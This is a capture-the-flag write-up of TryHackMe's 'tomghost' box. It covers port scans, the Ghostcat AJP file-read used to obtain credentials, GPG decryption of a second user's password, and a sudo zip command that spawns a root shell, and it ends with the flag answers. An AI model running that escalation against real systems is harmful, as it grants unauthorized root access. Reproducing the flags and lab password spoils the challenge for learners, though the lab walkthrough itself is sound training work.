

# Write Up for Try Hack Me box - [tomghost](https://tryhackme.com/room/tomghost)

Quite and easy box based on `Ghostcat` vulnerability to get in.\
After that it is easy PGP and zip escalation.

> Pratyush Prakhar (5#1NC#4N) - 05/30/2020

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [nmap file](rustscan/all.nmap).

	**Results**

    ```bash
    └─$ rustscan --range 1-65535 -a 10.10.48.37 -- -oN rustscan/all.nmap
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : https://discord.gg/GFrQsGy           :
    : https://github.com/RustScan/RustScan :
     --------------------------------------
    🌍HACK THE PLANET🌍

    [~] The config file is expected to be at "/home/kali/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.10.48.37:22
    Open 10.10.48.37:53
    Open 10.10.48.37:8009
    Open 10.10.48.37:8080
    [~] Starting Script(s)
    [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

    [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 15:58 EST
    Initiating Ping Scan at 15:58
    Scanning 10.10.48.37 [2 ports]
    Completed Ping Scan at 15:58, 0.21s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 15:58
    Completed Parallel DNS resolution of 1 host. at 15:58, 0.01s elapsed
    DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating Connect Scan at 15:58
    Scanning 10.10.48.37 [4 ports]
    Discovered open port 8080/tcp on 10.10.48.37
    Discovered open port 22/tcp on 10.10.48.37
    Discovered open port 53/tcp on 10.10.48.37
    Discovered open port 8009/tcp on 10.10.48.37
    Completed Connect Scan at 15:58, 0.21s elapsed (4 total ports)
    Nmap scan report for 10.10.48.37
    Host is up, received conn-refused (0.21s latency).
    Scanned at 2024-02-21 15:58:39 EST for 1s

    PORT     STATE SERVICE    REASON
    22/tcp   open  ssh        syn-ack
    53/tcp   open  domain     syn-ack
    8009/tcp open  ajp13      syn-ack
    8080/tcp open  http-proxy syn-ack
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file](rustscan/main.nmap)

	**Results**

	```bash
    └─$ rustscan -p22,53,8009,8080 -a 10.10.48.37 -- -sC -sV -oN rustscan/main.nmap
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : https://discord.gg/GFrQsGy           :
    : https://github.com/RustScan/RustScan :
    --------------------------------------
    Nmap? More like slowmap.🐢

    [~] The config file is expected to be at "/home/kali/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.10.48.37:8080
    Open 10.10.48.37:53
    Open 10.10.48.37:22
    Open 10.10.48.37:8009
    [~] Starting Script(s)
    [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

    [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 15:57 EST
    NSE: Loaded 156 scripts for scanning.
    NSE: Script Pre-scanning.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed
    Initiating Ping Scan at 15:57
    Scanning 10.10.48.37 [2 ports]
    Completed Ping Scan at 15:57, 0.25s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 15:57
    Completed Parallel DNS resolution of 1 host. at 15:57, 0.01s elapsed
    DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating Connect Scan at 15:57
    Scanning 10.10.48.37 [4 ports]
    Discovered open port 8080/tcp on 10.10.48.37
    Discovered open port 22/tcp on 10.10.48.37
    Discovered open port 53/tcp on 10.10.48.37
    Discovered open port 8009/tcp on 10.10.48.37
    Completed Connect Scan at 15:57, 0.22s elapsed (4 total ports)
    Initiating Service scan at 15:57
    Scanning 4 services on 10.10.48.37
    Completed Service scan at 15:57, 8.73s elapsed (4 services on 1 host)
    NSE: Script scanning 10.10.48.37.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 7.42s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.92s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed
    Nmap scan report for 10.10.48.37
    Host is up, received conn-refused (0.24s latency).
    Scanned at 2024-02-21 15:57:17 EST for 17s

    PORT     STATE SERVICE    REASON  VERSION
    22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
    |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
    |   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
    53/tcp   open  tcpwrapped syn-ack
    8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Apache Tomcat/9.0.30
    |_http-favicon: Apache Tomcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    NSE: Script Post-scanning.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 15:57
    Completed NSE at 15:57, 0.00s elapsed

	```

2. There are **2 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.2p2**
    2. *Port 53* - DNS 
    3. *Port 8009* - AJP - **Apache Jserv (Protocol v1.3)**
	2. *Port 8080* - HTTP - **Apache Tomcat 9.0.30**

3. Let's look into the WEb component first and the SSH later.

## WEB

1. Let's first check out the web server on port 8080. 
	1. We get a default tomcat page with links going out to default templates.
    \
    

2. We get to know that the Tomcat version is `9.0.30`. That is dome fruitful information.

3. Combining the facts with port 8009 AJP server and latest CVEs, we get to **tomghost**. This [CVE](https://hackmag.com/security/apache-tomcat-rce/) allows ones to read files on the server and, under certain conditions, execute arbitrary code. The problem lies in the implementation of the AJP protocol used to communicate with a Tomcat server.

```bash
└─$ searchsploit Apache Tomcat
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Apache 1.3.x + Tomcat 4.0.x/4.1.x mod_jk - Chunked Encoding Denial of | unix/dos/22068.pl
Apache Commons FileUpload and Apache Tomcat - Denial of Service       | multiple/dos/31615.rb
Apache Tomcat (Windows) - 'runtime.getRuntime().exec()' Local Privile | windows/local/7264.txt
Apache Tomcat - 'WebDAV' Remote File Disclosure                       | multiple/remote/4530.pl
Apache Tomcat - Account Scanner / 'PUT' Request Command Execution     | multiple/remote/18619.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                     | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)       | multiple/webapps/49039.rb
Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Executi | windows/remote/47073.rb
Apache Tomcat - Cookie Quote Handling Remote Information Disclosure   | multiple/remote/9994.txt
Apache Tomcat - Form Authentication 'Username' Enumeration            | multiple/remote/9995.txt
```

4. This [script](web/tomghost/48143.py) allows us to read the default `/WEB-INF/web.xml` page to maybe get some useful [information](web/tomghost/web.xml).

5. WE get a useful set of creds. Let's throw them at the machine.

## INITIAL ACCESS - SSH - TOMGHOST

1. We get in as the user `skyfuck`. We see that there are a couple of keys lying around. We get [a private pgp key](ssh/skyfuck/tryhackme.asc) and an [encrypted block](ssh/skyfuck/credential.pgp). We can try the saic importing. But we find it is protected by a **passphrase**.

```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ file *
credential.pgp: data
tryhackme.asc:  ASCII text, with CRLF line terminators
skyfuck@ubuntu:~$ cd /home/
skyfuck@ubuntu:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Mar 10  2020 .
drwxr-xr-x 22 root    root    4096 Mar 10  2020 ..
drwxr-xr-x  4 merlin  merlin  4096 Mar 10  2020 merlin
drwxr-xr-x  3 skyfuck skyfuck 4096 Feb 21 13:26 skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls -la
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
```
2. We can get the files on our system. Let's get john  to dig us some more information. We decrpyt the [passphrase](ssh/skyfuck/gpg_pass.txt). Let's now use it to get the actual information stored.

```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ ls -la
total 44
drwxr-xr-x 4 skyfuck skyfuck 4096 Feb 21 13:29 .
drwxr-xr-x 4 root    root    4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck  136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Feb 21 13:26 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
drwx------ 2 skyfuck skyfuck 4096 Feb 21 13:29 .gnupg
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: already in secret keyring
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
	
3. We get some viable information about the user `merlin`. We might be able to find our path through this.

## HORIZONTAL ESC - MERLIN

1. We can switch user to the merlin and we get in. Now let's get the user flag. 

```bash
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt 
****************************
```

2. Now let's go for the easy paths such as sudoers and then we can throw linpeas or lse scripts.

3. We get an easy-peasy `zip` sudo escalation to root. Let's get the [GTFObins](https://gtfobins.github.io/gtfobins/zip/#sudo) to work.


## ROOT ACCESS

1. We find running the `sudo -l` command that we already have keys to the kingdoms. Check it out.

```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd 
root@ubuntu:~# cd /root/
root@ubuntu:/root# ls -la
total 32
drwx------  4 root root 4096 Mar 10  2020 .
drwxr-xr-x 22 root root 4096 Mar 10  2020 ..
-rw-------  1 root root   15 Mar 10  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Mar 10  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   17 Mar 10  2020 root.txt
drwxr-xr-x  2 root root 4096 Mar 10  2020 ufw
root@ubuntu:/root# cat root.txt 
**************
```

2. We get to root. Simple box. Get the rest things on you. Lazy ass.


## EXTRA TREATS

Work on your legs.

## FLAGS

1. Compromise this machine and obtain user.txt - `THM{GhostCat_1s_so_cr4sy}`.

2. Escalate privileges and obtain root.txt - `THM{Z1P_1S_FAKE}`.

**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)